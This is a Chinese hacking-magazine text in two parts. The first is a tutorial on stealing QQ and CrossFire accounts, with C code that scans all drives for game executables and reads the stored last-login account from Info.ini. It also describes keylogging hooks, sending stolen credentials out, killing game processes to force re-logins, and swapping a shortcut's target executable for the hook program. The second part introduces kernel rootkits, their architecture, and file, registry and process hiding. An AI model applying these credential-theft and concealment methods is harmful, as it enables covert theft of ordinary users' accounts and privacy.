（文章中所涉及到的程序包及代码已经收录在光盘中）

## QQ 账号旁敲侧击

### 一、一个思路

在中国，QQ 是较早出现的即时通讯软件。QQ 以它的方便、快捷、易操作性被广大中国网络用户所使用，已经拥有庞大的用户量，凭借用户量底子腾讯才敢于掀起去年的“3Q 风波”。随着腾讯公司的发展，从原来单一的 QQ 通讯业务逐渐向其他软件服务方向发展，从最开始的在 QQ 聊天界面上添加 QQ Show、QQ 空间、QQ 邮箱功能；与电信运营商联合推出移动平台 QQ，以及校友、微博网络平台，到自己开发或代理网络游戏，涵盖面之广可以看到腾讯公司真的强大了。

腾讯给用户的唯一标识仅是 QQ 账号，用一个账号即可开通以上所有服务，方便的同时带来了安全隐患。家里的院子越是宽敞，威胁有越多的墙可供选择。比如用户使用 QQ 校友时都乐意写上自己的真实信息，为使用社会工程学的人……提供了极好的信息。多款代理软件未必都能像 QQ 一样很好地保护用户的账户，任何一款软件的安全措施做得不当，我们的账号和密码就将可能被心怀不轨分子盯上，个人隐私受到威胁。我今天要讲的就是通过腾讯的代理软件获取 QQ 账户和密码。

### 二、钩子疯了

编程的小菜们喜欢用消息钩子（Hook）记录键盘上的操作，希望可以通过钩子得到用户的账号和密码信息。通常情况下钩子的功效还是显而易见的，但其中也存在一些无奈。

感觉钩子似乎可以通行天下的时候，心脏“嘭”地直跳着拿 QQ 来测试，正要输入密码时候运行钩子的程序连续捕获到的键盘输入的字符在界面上显示，我按下来的按键钩子程序又捕获不到正确的键值。其实 QQ 只是用了些简单的方法而躲过了钩子，我们那个入门级的钩子略显力道不够了，需要将钩子升级。升级钩子的过程就不这么简单了，不能因为腾讯出了一个脑筋急转弯似的小学数学题就让用户用高数来解决。所谓条条大路通罗马，接下来我就用这个简单的钩子钓 CF 去。

在 CF 登录界面启动后挂上键盘消息钩子，可以轻松记录用户的密码，反而不容易获取用户账号。为什么？软件是为懒人所编写的。登录程序自动填入上一次成功登录的用户账号，所以如果这次用户就是上一次登录的用户，我们将无法获取到本次用户账号的输入。记得以前的 QQ 飞车也是一样为用户想得周到。似乎我们又得绕道去罗马了，但用不着绕太远，我们还是从 CF 这扇门进去。我提供两种可行的方法。

第一种方法写代码时含金量比较高，通常被牛人所用——图像识别。严格来讲还不算什么图像识别，对于固定形状的账号输入框，我们只需要保存 0-9 数字的位置，逐个数字比对即可。相比以前我做的从照相机识别图像容易得多，高数我只懂得 XY，搞了半个月也就识别出简单的三角形，程序认为圆形和矩形是一家的。

第二种方法属于像我这种什么都略懂的入门级人物——寻找游戏配置文件。打开 CF 安装路径 `..\CrossFire\config` 下有个 `Info.ini` 文件，文件第二行记录了上一次登录的用户账户 `LastQQUin=xxxx`，读取文件的 `xxxx` 信息是我们的目的。为找到这个配置文件，我需要进行全盘搜索来定位游戏安装目录。

### 三、实现方法

下面我就着重讲解全盘搜索到读取账号的实现方法。首先需要逐个盘符地搜索，搜索条件仅限于 exe 文件，为搜索到的文件信息建立一个链表，从链表中寻找我们需要的文件路径。我使用的关键字是 `crossfire.exe`，在安装路径基础上写入相对路径读取 `Info.ini` 文件（如图 1）。


图1

获取盘符数目和标识使用下面的代码实现。

```c
// 扫描系统所有盘符
int ScanDisk(int (*pdisk)[26])
{
    int i, ret = 0;
    for(i = 0; i < 26; ++i) {
        (*(pdisk))[i] = _chdrive(i+1); // 盘符是否存在
        if((*(pdisk))[i] == 0) {
            ret++;
        }
    }
    return ret; // 返回盘符数目
}
```

盘符搜索的任务交给 `SearchAllDir` 函数去完成，`SearchAllDir` 有 4 个参数：

- `char *basePath`：搜索根目录，直到最底层目录为止。本代码里传递上面扫描到的盘符。
- `char *condition`：搜索条件，可以像控制台一样使用通配符 `*` 和 `?` 进行条件过滤。本代码里传递 `*.exe`。
- `CLinkList* output`：输出链表结构类，用于记录和维护所有输出内容，这里不详细说明其用法。
- `int *threadActive`：函数兼容线程调用，多线程状态时可以通过这个参数来控制搜索任务的启动与终止，并且通过 `STSearchFile` 结构的指针传递给 `SearchAllDir` 函数。

```c
// 传递给线程的结构
typedef struct _STSearchFile
{
    char      bestDir[_MAX_PATH];
    char      condition[_MAX_PATH];
    CLinkList *pout;
    int       threadActive;
} STSearchFile;

DWORD i = 1;
char  tbasePath[_MAX_PATH];   // 临时本层目录完整路径以及搜索范围
char  path[_MAX_PATH];        // 子目录完整路径
```

`SearchAllDir` 函数有 `condition` 参数，需要代码有些智能化地去过滤无关的内容，我的脑子可没那么好使，写出来的过滤代码一定冗余臃肿。我们搞程序的不能在一棵树上吊死。`SearchAllDir` 函数里调用过微软的 API 函数 `FindFirstFile`，本着“拿来主义精神”用它去实现条件过滤。`FindFirstFile` 函数如果给它的搜索条件是 `*.*`，那么它将返回该目录下的所有文件和文件夹，我可以很容易从文件属性里区分其中谁是文件夹，从而为子文件夹的搜索做准备。当传递 `*.exe` 时，它将返回该目录下的所有 exe 文件。我搜索同一目录两次分别传递上面过滤条件，虽然做了些重复的事情给人感觉代码效率不高，要让我在“懒惰”和“效率”上作出选择的话，我选择“有效率的懒惰”。

`SearchAllDir` 函数代码如下：

```c
int SearchAllDir(
    char *basePath,
    char *condition,
    CLinkList* output,
    int *threadActive)
{
    HANDLE        hfile;      // 目录句柄
    WIN32_FIND_DATA fileInf;  // 文件信息
    DWORD         ret;        // 错误提醒

    CLinkList subDirList(NULL,NULL); // 本层子目录链表
    SLinkNode *pnode;                // 本层子目录节点
    SSubDir   *subDir;               // 本层子目录名
    SFileInf  *pdirFile;             // 本层匹配文件

    // Step 1:
    // 搜索当前目录下的所有文件夹
    strcpy(tbasePath, basePath);
    strcat(tbasePath, "\\*.*");
    hfile = FindFirstFile(tbasePath, &fileInf);
    if (hfile == INVALID_HANDLE_VALUE) {
        return 1;
    }

    ret = 1;
    while (ret != 0) { // 搜索所有文件，识别文件夹，去除.和..文件夹
        if (fileInf.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY
            && *fileInf.cFileName != '.') {
            subDirList.AddNode(sizeof(SSubDir), &pnode);
            NODE(pnode, subDir, SSubDir);
            strcpy(subDir->name, fileInf.cFileName);
        }
        ret = FindNextFile(hfile, &fileInf);
    }
    FindClose(hfile);

    // Step 2:
    // 搜索当前目录下与条件匹配的文件和文件夹
    strcpy(tbasePath, basePath);
    strcat(tbasePath, "\\");
    strcat(tbasePath, condition);
    hfile = FindFirstFile(tbasePath, &fileInf);
    if (hfile == INVALID_HANDLE_VALUE) {
        goto _NextLevel;
    }
}
```

```cpp
ret = 1;

while(ret != 0) {
    if(*fileInf.cFileName != '.' && LL_RUNOVER != output->AddNode(sizeof(SFileInf), &pnode)) {
        LL_CURRENT_NODE(pnode, pdirFile, SFileInf);
        memcpy((void*)&pdirFile->fileData, &fileInf, sizeof(WIN32_FIND_DATA));
        strcpy(pdirFile->fullPath, basePath);
    }
    ret = FindNextFile(hfile, &fileInf);
}
FindClose(hfile);

// Step.3:
// 逐个递归子目录查找
_NextLevel:
if(subDirList.m_length <= 0) {
    return 0;
}

pnode = subDirList.m_phead->next;
// 获取第一个结点
LL_CURRENT_NODE(pnode, subDir, SSubDir);
// 获取当前节点

do {
    strcpy(path, basePath);
    // 得到子目录的完全路径
    strcat(path, "\\");
    strcat(path, subDir->name);

    // 线程方式调用和直接调用处理
    if(threadActive != NULL && *threadActive == THREAD_RUN) {
        SearchAllDir(path, condition, output, threadActive);
    } else if(threadActive == NULL) {
        SearchAllDir(path, condition, output, threadActive);
    }

    LL_NEXT_NODE(pnode, subDir, SSubDir);
    ++i;
} while(i <= subDirList.m_length);

return 0;
```

经过一番查找，在我的计算机里搜索到 2602 个 exe 文件（如图 2）。很多 exe 文件都不是我所需要的，需要从 2602 个文件里筛选出那些我感兴趣的 exe 文件，最终筛选出 12 个目标文件，并得到它们的完整路径（如图 3）。


图2


图3

下面再说明另一个结构 `STargetFind`。CF 仅仅是图 2 中 12 个目标文件之一，具体问题具体分析，不同的目标文件进行不同的操作，操作的过程就在 `STargetFind` 结构里定义。

- `char name[30]`：用于匹配搜索到的文件名是否是我们想要的，可以填入 `crossfire.exe`、`QQGame.exe` 等。
- `char path[_MAX_PATH]`：存储目标文件所在路径。
- `char nextpath[_MAX_PATH]`：进行下一步操作的相对路径。对于 CF 这里传递 `\config\Info.ini`。
- `char flag`：`0x01` 表示硬盘里找到目标文件；`0x02` 表示像 CF 这样有记录最后登录用户信息的软件；`0x03` 表示有记录所有曾经在这台计算机上登录过的用户软件，比如说 QQ 和 QQGame 这两个软件会为每个用户建立一个与它们用户名相同的文件夹。

```c
// 目标任务结构
typedef struct _STargetFind
{
    char name[30];           // 目标文件
    char path[_MAX_PATH];    // 文件路径
    char nextpath[_MAX_PATH];// 相对路径
    char flag;               // 下一步动作分类
} STargetFind;
```

最后通过读取 `Info.ini` 文件我们就可以通过 CF 这扇大门拿到用户的账号了，并且我同时也获取到以前曾在本机使用 QQGame 的用户账号（如图 4）。


图4

### 四、还有一些话

当我们获得用户的账号，如何处理就是个人的处理问题了，可以上传到某网站上去，可以用发送邮件的方式，还有用我擅长的 socket 建立 TCP/IP 连接。另外再给我们那个简单的钩子的启动时间提供个思路。

一般的方法是做个任务管理器的功能模块，定时寻找系统进程查看是否有我感兴趣的软件运行，如果找到就把这个软件给 Kill 掉，当然不能连续地 Kill，几天或几个小时 Kill 一下即可。用户会再次启动程序同时骂几句脏话，小学语文老师没教好我不怪他，挂上钩子去获取了事。

另一种方法就是利用今天的全盘搜索功能去让用户自己启动我们的钩子程序，而不需要任务管理器模块。如何实现？聪明的你应该想到了，大多数用户为了方便启动程序在桌面设置快捷方式，既然如今我们有能力找到文件的路径，那么为什么不将文件给替换掉，只需改掉钩子程序的名字，当用户点击快捷方式的时候就启动我们的钩子程序，钩子程序启动同时把真实的 exe 文件也运行即可。使用这种方法为了保险起见，还是读取快捷方式 `*.lnk` 文件里面的内容，保证快捷方式指向文件与我们钩子所替换的 exe 文件一致，因为有些人一个软件可能多次安装到不同的路径下。实际上全盘搜索 exe 文件的方式可以改成仅仅在 Administrator 目录下搜索 lnk 文件，但这样一来又需要解读 lnk 文件格式。

最后在此声明，本文仅供编程及计算机爱好者阅读，请勿对号入座，本人不对他人阅读本文引发的法律问题负责。

> （文章中所涉及到的程序及代码已经收录在光盘中）


## 一、rootkit 的基本概念

rootkit 这个术语已经存在 10 多年了。它是由有用的小型程序组成的工具包，使得攻击者能够保持访问计算机上具有最高权限的用户“root”。换句话说，rootkit 是能够持续或可靠地、无法检测地存在于计算机上的一组程序和代码。

在上述 rootkit 定义中关键词是“无法检测”。rootkit 所采用的大部分技术和技巧都用于在计算机上隐藏代码和数据。例如许多 rootkit 可以隐藏文件和目录。rootkit 的其他特性通常用于远程访问和窃听，例如用于嗅探网络上的报文。当这些特性结合起来后，它们会给安全带来毁灭性的打击。

rootkit 并非天生邪恶，也并不总是被黑客所使用。

rootkit 只是一种技术，理解这一点是很重要的。美好或邪恶的意图取决于使用它们的人，大量合法的商用程序提供了远程管理，甚至窃听功能，有些程序甚至使用潜行技术，这些程序在许多方面都可称作 rootkit。

rootkit 存在的原因和语音窃听一样，人们希望了解或控制其他人的行为。由于对数据处理的巨大且日益增长的依赖程度，计算机自然成为了目标。

只有当希望维持对系统的访问时，rootkit 才发挥作用。若要完成的全部功能只是窃取信息然后离开，就不留下 rootkit。事实上，留下 rootkit 总是存在着被检测发现的风险，若窃取了信息并将系统清理干净，就可以不留下任何操作痕迹。

rootkit 提供了两个主要功能：远程命令和控制，以及软件窃听。远程命令和控制（简称远程控制）包括对文件进行控制，导致系统重启或“死机蓝屏”，以及访问命令 shell（即 `cmd.exe` 或 `/bin/sh`）。软件窃听就是观察人们在做什么，它包括嗅探报文、截获击键以及阅读电子邮件。攻击者可以使用这些技术来捕获口令和解密的文件，甚至加密密钥。

为了使各位能够方便地理解本文，接下来我要介绍一些关于操作系统的知识。

## 二、操作系统（OS）

### 2.1 操作系统概述

现代的人们大多是这样认识计算机的：一个人盯着屏幕敲打着键盘，这就是在操纵计算机了，于是，屏幕和键盘就成了计算机的代表物了。更进一步了解计算机的人们知道，屏幕和键盘只不过是计算机的输出和输入而已，计算机的核心在一个机箱里，包括处理器、内存、主板、硬盘和电源等。所有这些构成了计算机的有形部分（实际上，这些部件也在越变越小）。再进一步，真正使用过计算机的人们还知道，光是计算机硬件还不够，还需要各种软件，日常用到的软件包括：办公软件、游戏软件、字处理软件、上网软件、聊天软件以及防病毒软件，等等。正是有了这些软件，计算机用起来才这么有趣。所以，虽然软件并不有形（不过，存放软件的介质却是看得见摸得着的），但人们知道它们是切实存在的。那么，操作系统（Operating System）是什么呢？

就本质而言，操作系统也是一种软件，只不过，相对于一般的软件而言，有其特殊性。所有的应用软件都建立在操作系统的基础之上，操作系统的发展本身也推动了应用软件的发展。一个众所周知的事实是，Windows 操作系统的发展和普及，为大量的应用软件提供了得以存在的平台，各种家用软件也纷纷随之诞生。

操作系统是专门管理硬件资源的软件，计算机硬件本质上只提供计算和存储的能力，而操作系统则利用硬件的计算和存储能力，建立起一个抽象层。在现代操作系统中，这一抽象层包括任务或进程（或线程）、文件、设备或字节流等诸多概念以及相应的功能。基于操作系统所提供的抽象概念和功能，应用程序能够方便地完成其功能，并且无须直接操纵计算机的硬件。而且，现代操作系统也提供了多个任务共享硬件资源的能力，所以，应用程序并不独占硬件资源，而是以某些既定的方式来共享，这也为用户使用各种应用软件提供了极大的便利。

不同种类操作系统的特殊性决定了应用软件（特别是我们这次要谈的 RK）的适用范围。比如，UNIX 平台的 RK 转到 Windows 平台上，便不能正常使用，反之亦然。直接在操作系统上进行软件开发的程序员，必须非常清楚地了解操作系统所提供的抽象层，才能够编写出行之有效的软件来。在现代软件开发领域，其中一个分支是在系统无关的平台上进行软件开发。这里所谓的系统无关的平台是指，一个公共抽象层供上层软件在其上运行，因而上层软件与底下的操作系统平台无关。典型的例子是 Java 语言及其开发平台，这实际上是软件多层次化的体现。

### 2.2 计算机系统的硬件资源管理

操作系统管理哪些硬件资源，分别又是怎么管理的呢？最主要的资源是计算资源和存储资源。计算资源即 CPU（Central Processing Unit，中央处理单元），现在主流的计算机通常有一个或多个 CPU，或者一个 CPU 中有多个核（即多核 CPU）。从操作系统的角度来看，有多个 CPU 或一个多核 CPU 意味着可以同时执行多个任务。所以，操作系统必须合理地安排和调度任务，使得多个 CPU 或多核尽可能地利用起来，避免出现竞争或闲置的情形。在支持多任务并发的操作系统中，这一职责称为任务调度。在现代操作系统中由于任务是由进程或线程来完成的，操作系统的这部分功能也称为进程调度或线程调度。因为任务的数量可能超过 CPU 或核的数量，所以，多个任务可能共用同一个 CPU 或核，这就需要有一种硬件机制能够让操作系统在不同的任务之间实现切换，这是任务调度的硬件基础。通常，计算机提供的时钟中断可以让操作系统很方便地做到这一点，也就是说，每隔一定的时间，硬件系统会触发一个中断；操作系统截获此中断，按照某种算法暂停当前正在执行的任务，并选择一个新的任务，从而实现任务的切换。到下一个时钟中断到来时，再继续这样的切换过程。因此，多个任务可以在一个 CPU 或核中被轮流执行。操作系统可以设定时钟中断间隔的长度，也可以选择不同的算法来安排这些任务被先后执行，这样就形成了各种不同的调度算法。

存储资源通常包括内存（RAM，随机访问存储器）和外存（也称为辅助存储器）。外存是通过标准的 I/O（输入/输出）来管理的，而内存是 CPU 直接通过系统总线来访问的。内存是 CPU 执行一个任务的物质基础，CPU 内部的寄存器具备计算的能力，但计算的数据从哪里来呢？除了寄存器（其本身也是一种存储资源）以外，数据的来源是系统内存。在现代操作系统中，每个任务都有其独立的内存空间，从而避免任务之间产生不必要的干扰，所以操作系统有责任为每个任务提供相对独立的内存空间。把连续编址的物理内存划分成独立的内存空间，典型的做法是段式内存寻址和页式虚拟内存管理。不同的硬件体系结构可能支持不同的方案。Intel x86 体系结构同时支持段式寻址和页式虚拟内存映射，但是，可在 Intel x86 上运行的操作系统几乎都选择了虚拟内存映射作为内存管理的硬件基础；Windows 和 Linux 便是典型的例子。

在支持多任务的系统中，若所有任务的内存需求加起来的总量超过了当前系统的物理内存总量，那么，系统要么……停掉一些任务，要么把一些任务转移到外存（如磁盘）中，以后当内存空闲时再把这些任务换回来。或者系统有选择地把部分不常用的内存换出到外存，并且根据适当的规则将来再慢慢地换入回来。虚拟内存的映射以及物理内存不足时的换出和换入操作，都是操作系统管理内存资源的重要任务。前者依赖于硬件提供的机制，而后者则更多地由操作系统自己来控制。

除了计算资源和内存资源的管理以外，操作系统对其他资源都通过 I/O 来管理。例如，上面提到的外存资源，像磁盘，在现代计算机中是不可或缺的部件。另外，键盘和鼠标通常是标准的输入设备，而显示器和打印机往往是标准的输出设备。操作系统为了跟 I/O 设备打交道，需要三方面的技术基础：CPU 通过特定的指令来控制 I/O 设备，I/O 设备通知 CPU 发生了特定的事情，以及在系统主内存和设备之间传输数据。

通常，CPU 直接访问设备的寄存器来操作一个设备，在 Intel x86 系统上，CPU 通过 in 和 out 指令能够做到这一点。设备寄存器是另一个地址空间，CPU 通过 I/O 端口（I/O port）来访问它们。在现代计算机中，I/O 端口的分配跟软件和硬件都有关系，不同的硬件设备会使用不同的端口编号，现代的设备大都可以通过软件方式来设置其端口号，而过去一些老的设备可能需要通过硬件跳线来改变端口号的设置。对硬件设备进行恰当的设置，也是操作系统管理硬件设备的任务之一。

另外，CPU 怎么知道或检测设备的工作状态呢？一种做法是，通过不停地查询设备的状态寄存器来获知其工作状态；但是，更有效的做法是，当设备的状态发生变化时，它能够主动地通知 CPU，从而操作系统可以采取相应的措施。这后者即是设备中断机制。比如说，当键盘设备接收到按键动作时，它产生一个中断，告诉 CPU（和操作系统），当前哪个键被按下了。中断也有编号，中断的编号被视为系统全局资源，在早期计算机的中断控制器中，不同设备的中断号不能冲突，否则设备无法正常工作。现代计算机通常允许多个设备共享中断号，操作系统和设备驱动程序可以协商设备的中断号。

计算机的计算处理能力往往仅限于在 CPU 内部寄存器和主内存之间运行，但是为了实现基本算术计算以外的其他各种能力，通常有必要让设备中的数据也参与到计算中来，所以，在设备与 CPU 寄存器或主内存之间传输数据往往是必要的功能。例如，计算机通过磁盘设备可以实现永久存储，通过显示控制器实现彩色显示甚至三维模拟。实现数据传输的方法有多种，如果设备本身的数据量很小，则可以直接通过 in 指令来读取设备中的数据，或通过 out 指令输出到设备中。或者也可以映射一段地址范围到设备中，这样，当 CPU 访问这块地址范围时，实际上是在访问设备的内存，而不是系统的主内存。

另外一种适合于大块数据传输的技术是 DMA（Direct Memory Access，直接内存访问）。像硬盘控制器和网络控制器就通常采用 DMA 方式来传输数据，CPU 只须设置好数据传输的方向、位置、数量等信息，就可以启动 DMA 传输了。DMA 传输可以与 CPU 计算同时进行，但是 DMA 使用的总线不能与 CPU 使用的发生冲突，它可以趁 CPU 不用总线的时刻来传送数据，也可能会因此而阻塞 CPU 指令的执行。DMA 传输影响 CPU 执行指令的程度取决于 DMA 控制器的传输策略。

从操作系统的角度来看，考虑到 I/O 设备的多样性和出现新设备的可能性，操作系统有必要定义一个框架来容纳各种各样的 I/O 设备，并且允许操作系统发布之后还能为新的设备提供支持。所以，除了专用操作系统以外，现代操作系统都会提供一个 I/O 模型，允许设备厂商按照此模型编写设备驱动程序（Device Driver），并加载到操作系统中。I/O 模型通常具有广泛的适用性，能够支持各种类型的设备，包括对硬件设备的控制能力，以及对数据传输的支持。

可以这么来概括 I/O 模型：它对下提供了控制硬件设备的能力，对上为应用程序访问硬件提供了一个标准接口，同时 I/O 模型也必须能够让操作系统有效地管理设备驱动程序。在 Windows 系统中，第三方厂商可以使用 Windows 的 I/O 模型来编写设备驱动程序。Windows 本身在发行时，已经内置了大量主流设备的驱动程序，所以，Windows 系统在安装阶段可以自动将识别出来的设备驱动程序安装到系统中。因此，用户并不需要手工下载或安装这些驱动程序。另一方面，由于驱动程序需要直接访问硬件设备，它执行的许多指令（包括 in 和 out）是特权指令，所以，驱动程序对于系统的稳定性和安全性有至关重要的影响，操作系统有必要对其执行严格的筛查措施，以避免恶意代码趁机闯入系统中（但实际上这是不够严格）。

### 2.3 软件支持

操作系统之所以要管理各种硬件资源，是为了更好地为上层应用程序提供服务。应用程序并不直接与机器的各种硬件设备及资源打交道，而是运行在一个抽象层上，即操作系统提供的功能语义层。操作系统提供什么样的语义层，将决定应用程序应该怎么来构建它们的功能逻辑。尽管不同的操作系统提供的这一功能语义层的接口可能不一致，甚至相距甚远，但现代操作系统的语义层在概念上仍然比较一致，下面我们从应用程序的构建需求来介绍一些核心概念。

首先，对应用程序的任务作最基本的抽象，这就是进程和线程的概念。尽管不同的操作系统对于进程和线程的定义不尽相同，但是每个任务都应该有它自己的执行环境，即该任务的控制流以及函数调用的层次追踪。比如，在 UNIX 中，一个进程代表了一个应用任务，它记录了该任务的执行状态；在 Windows 中，一个线程代表了一个任务，其中也记录了该任务的执行状态。现代操作系统都支持多个任务并发执行，任务的数量可以远远大于 CPU 或核的数量，所以，每个任务实际上只是分到了一部分 CPU 执行时间，多个任务可以共享一个 CPU。因此，在这种多任务操作系统模型下，操作系统除了为每个任务（进程或线程）维护好其状态以外，还必须有恰当的算法来决定什么时候让哪个任务执行，什么时候暂停一个任务。正如前面所提到的，这便是任务调度，或者称为进程调度或线程调度（取决于操作系统是以进程还是线程的方式来管理任务）。简单地轮流执行每个任务，这种调度算法往往难以满足实际应用程序的各种需求。通常操作系统会采用基于优先级的抢占式调度算法，甚至根据任务的各种特性进行优先级的动态微调，这使得任务调度算法趋向于复杂化。Windows 的线程调度方案属于这一类型。

其次，在支持多任务的基础上，如果这些任务是相互独立的，则操作系统总是可以采用适当的方式让它们获得执行机会；但在实践中，应用程序为了实现各种功能逻辑，不同任务之间往往有一些逻辑上的关联性。比如，任务之间必须强加某种时序关系，才能保证每个任务的状态是有效的；当多个任务竞争某些稀有资源（注意，系统的硬件资源，像打印机和显示器等，是共享的）时，系统必须确保这些任务有序执行。所以，凡是存在共享资源的地方，操作系统都必须提供恰当的方法来同步应用程序对它的访问。现代操作系统通常会提供多种同步机制，例如互斥体（mutex）、信号量（semaphore）、临界区（critical section）等。应用程序可以有选择地使用这些同步机制，以确保多个任务有序地共享资源。

除了任务和同步的概念，每个应用程序还必须有它自己相对独立的执行空间。在现代操作系统中，进程也代表了一个应用程序和它的执行空间。不同进程的空间是相互隔离的，这是现代操作系统的基本需求。操作系统必须在处理器的硬件特性基础之上，实现一套行之有效的空间隔离方案。每个进程有它自己的内存空间，并且无法直接访问其他进程的内存空间。进程之间如果要共享数据，则必须通过操作系统提供的机制来进行。Intel x86 体系结构上的操作系统基本上都利用硬件的虚拟内存映射机制来隔离每个进程的内存空间。所以，操作系统的职责是为每个进程维护好从虚拟地址到物理地址的映射关系，并且管理好物理内存的分配和回收。另一方面，除了进程的空间隔离性，操作系统还必须提供相应的机制让不同的进程可以相互通信；毕竟，很多软件需要进程之间的协作来完成一些上层功能。同步机制和跨进程地共享内存是典型的进程间通信（IPC，Inter-Process Communication）手段。

前面提到，现代操作系统往往以统一的框架来管理 I/O 设备，这也隐含了操作系统向应用程序暴露的 I/O 接口是统一的这样一层意思。应用程序通过此接口来访问系统的外部设备，而操作系统不仅要管理好应用程序访问外设的各种请求，包括它们的时序，还必须将应用程序的请求发送到对应的设备驱动程序中，最终由设备驱动程序来处理这些请求，而处理的结果也必须以某种方式回送给应用程序。操作系统通常以句柄（handle）来代表一个可访问的抽象设备，抽象设备可能与物理设备连接，也可能并不存在对应的物理设备或资源。操作系统还提供在一个句柄上读（read）、写（write）数据，以及发送控制命令的能力。所以，应用程序与系统设备打交道的方式非常简洁明了：打开设备获得句柄、向设备发送命令、读或写设备，以及关闭设备。操作系统的任务是管理这些设备和驱动程序，以及传递或解释应用程序的命令。

一类特殊的设备是磁盘，磁盘具有随机读写的能力，尽管其随机读写的性能比顺序读写要差很多。通常，磁盘的驱动程序负责操纵磁盘控制器，以便从磁盘中读取数据或者向磁盘上写入数据，但磁盘上的数据如何有效地组织起来以便不同的应用程序可以共享同一个磁盘，这一任务是由文件系统（file system）来完成的。在绝大多数操作系统中，文件系统是不可缺少的；它通过一个树状名字空间来管理磁盘上的存储空间，允许应用程序通过名称来访问磁盘上的数据。这种结构奠定了现代计算机的信息存储系统的基础。

所以，应用程序实际上工作在操作系统提供的抽象层上，它无须管理系统的硬件设备和资源，但必须使用操作系统提供的机制或语义来实现其自身的功能逻辑。这也暗示着，操作系统在某种程度上决定了上层应用程序应该如何使用它所提供的服务才是最有效和方便的；同时，应用程序也有足够的灵活性来完成其自身的上层功能。这就形成了在同一个操作系统上存在大量风格迥异的应用程序的局面，并且，由于不同操作系统提供的抽象层在概念上有一定的互通性，所以，很多应用软件能够便捷地从一个操作系统平台移植到另一个上。

我们通常所指的操作系统的范畴包括上面提到的资源管理功能，以及为应用程序提供的各种抽象概念和抽象接口的具体实现。但是，在应用程序和操作系统核心模块之间，往往还存在很多预封装好的模块，以便于应用开发人员可以复用这些模块，从而高效地开发应用软件，缩短应用软件的开发周期。这些模块既可能是操作系统厂商提供的，也可能是独立软件厂商提供的。它们既可能构成一个通用的中间件（middleware），也可能只是随编译器而提供的一个库模块（静态的或动态的）。例如，Windows 操作系统的发行版本包含大量这样的中间模块（例如 COM/COM+、Winsock2、.NET 等），它们也成为了 Windows 的一部分。

## 三、内核 rootkit

### 3.1 简述

所有类型和规模的计算机上都安装了软件，其中绝大多数都具有操作系统（Operating System，OS）。操作系统是一组核心软件程序，能够为计算机上的其他程序提供服务。许多操作系统都是多任务的，允许多个程序同时运行。

不同的计算设备可以使用不同的操作系统。例如，PC 机上应用最广泛的操作系统是微软公司的 Windows。Internet 上大量服务器都运行 Linux 或 Sun 公司的 Solaris 系统，其他许多机器则运行 Windows。嵌入式设备通常运行 VxWorks 操作系统，许多蜂窝电话则使用 Symbian 系统。

不管操作系统安装在何种设备之上，它们都拥有一个共同目标：为应用软件提供单一、一致的设备访问接口。这些核心服务控制对设备的文件系统、网络接口、键盘、鼠标以及视频/LCD 显示器进行访问。

OS 的另一种功能是提供关于系统的调试和诊断信息。例如，大多数操作系统能够列出正在运行的或已安装的软件。大多数 OS 都提供日志机制，因此应用程序可以报告自身发生崩溃的时刻、登录失败的时刻等等。

尽管编写能够绕过 OS 的应用程序（通过未在文档中公开的、直接访问的方法）是可能的，但大多数开发人员不会这样做。OS 提供了“官方的”访问机制，并且坦率地说，单纯使用 OS 的机制要容易得多。这就是几乎所有应用都使用 OS 所提供的服务之缘由，也是涉及到修改 OS 的 rootkit 会影响几乎所有软件的原因所在。

### 3.2 基本架构

攻击者通常设计 rootkit 来影响特定的 OS 和软件集合。若将 rootkit 设计成直接访问硬件，则它只能局限于该特定硬件。rootkit 可以通用于一种 OS 的不同版本，但仍受限于特定的 OS 家族。例如，一些公开的 rootkit 可以影响到全部 Windows NT、Windows 2000 和 Windows XP。这只有当一种 OS 的所有风格都具有类似的数据结构和行为时才是可能的。例如，创建一个能够感染 Windows 和 Solaris 两种系统的通用 rootkit 的可行性是非常小的。

rootkit 可以利用多个内核模块或驱动程序。例如，攻击者可以使用某个驱动程序来处理所有的文件隐藏操作，使用另一个驱动程序来隐藏注册表键。有时将代码分散在多个驱动程序包中是一种好方法，这有助于将代码保持为可管理。

复杂的 rootkit 可能包含许多组件，一个复杂的 rootkit 可以使用如下的目录结构：

- `/MyRootkit`
- `/src/File Hider`
- `/src/Network Ops`
- `/src/Registry Hider`
- `/src/Process Hider`
- `/inc`
- `/bin`
- `/lib`

一个系统只安装一个 rootkit。对于任何系统来说，一个 rootkit 就应该足够了。rootkit 具有侵袭性，会更改系统上的数据。尽管攻击者通常将这种侵袭性成功限制为最小，但安装多个 rootkit 可能会导致对驱动部分再进行改动，从而引起损害。rootkit 在大多数情况下假定系统是干净的，它可以执行对恶意软件（例如桌面防火墙）的检查，但通常不会检查其他 rootkit。若发现系统上已经安装了另一个 rootkit，攻击者最常见的策略也许是“放弃”（例如写出错日志而停止执行）。

隐藏文件的代码可能会很复杂，它应该包含在自身的源代码文件集合之中。文件隐藏技术有多种，其中一些可能需要大量代码来实现。例如，有些文件隐藏技术要求钩住（hook）大量的函数调用。每个钩子都需要相当多的源代码。

在 Windows 系统上的网络操作需要 NDIS 和 TDI 代码。这些驱动程序可能会比较庞大，它们有时链接到外部库上，将这些特征限制在它们自身的源文件中是合适的。

注册表隐藏操作的方法可能不同于文件隐藏特性。它可能会涉及许多钩子，也可能需要跟踪许多句柄表或句柄列表。实际上，注册表键和键值相关联的方式导致注册表键的隐藏存在着问题。因此一些 rootkit 开发者对该问题精心设计了非常复杂的解决方案。这类特性也应该限制在它自身的源文件集合之中。

进程隐藏应该使用直接内核对象操作（Direct Kernel Object Manipulation，DKOM）技术。这些文件可能包含反向工程的数据结构以及其他信息。

当计算机重启后，大多数 rootkit 也需要重新启动。攻击者在此处提供一个微型服务，用于在系统引导时“发动”rootkit。使得 rootkit 随计算机一起重启是一个难题。虽然简单修改注册表键就能够导致在系统引导时启动文件，但是这种方法很容易被检测到。一些 rootkit 开发者设计了复杂的引导功能，包括磁盘上内核补丁以及修改系统引导加载程序。

`/inc` 目录下包含公共的被包含文件，其中含有类型定义、枚举以及 I/O Control（IOCTL）代码。这些文件通常被其他所有文件共享，因此应该位于自己的专有空间之中。

`/bin` 目录下包含所有编译后的文件。

由于编译器自身的库集合位于其他目录，因此攻击者可以在 `/lib` 目录下存储自己的附加库或第三方库。

### 3.3 在内核中引入代码

将代码植入内核中的直接方式是使用可加载模块（有时称为设备驱动程序或内核驱动程序）。大多数现代操作系统都允许加载内核扩展模块，以便第三方硬件如存储系统、显卡、主板和网络硬件的制造商能够添加对自己产品的支持。操作系统通常都提供了关于将驱动程序引入内核中的文档和支持。

